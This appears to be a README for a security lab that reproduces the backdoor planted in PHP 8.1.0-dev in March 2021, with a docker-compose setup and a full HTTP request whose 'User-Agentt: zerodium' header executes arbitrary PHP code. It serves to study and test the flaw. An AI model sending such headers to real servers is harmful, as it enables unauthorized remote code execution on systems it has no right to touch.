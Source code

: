 # PHP 8.1.0-dev User-Agentt Backdoor

[中文版本(Chinese version)](README.zh-cn.md)

PHP version 8.1.0-dev was implanted with a backdoor on March 28, 2021, but the backdoor was quickly discovered and removed. When this backdoor is present on a server, an attacker can execute arbitrary code by sending a **User-Agentt** header.

References:

- https://news-web.php.net/php.internals/113838
- https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d
- https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a

## Vulnerable Environment

Start a PHP 8.1-dev server with the backdoor.

```
docker-compose up -d
```

After the environment is started, the service runs at ``http://your-ip:8080``.

## Vulnerability Reproduce

Send the following request to execute the code `var_dump(233*233);`:

```
GET / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
User-Agentt: zerodiumvar_dump(233*233);
Connection: close


```

![](1.png)
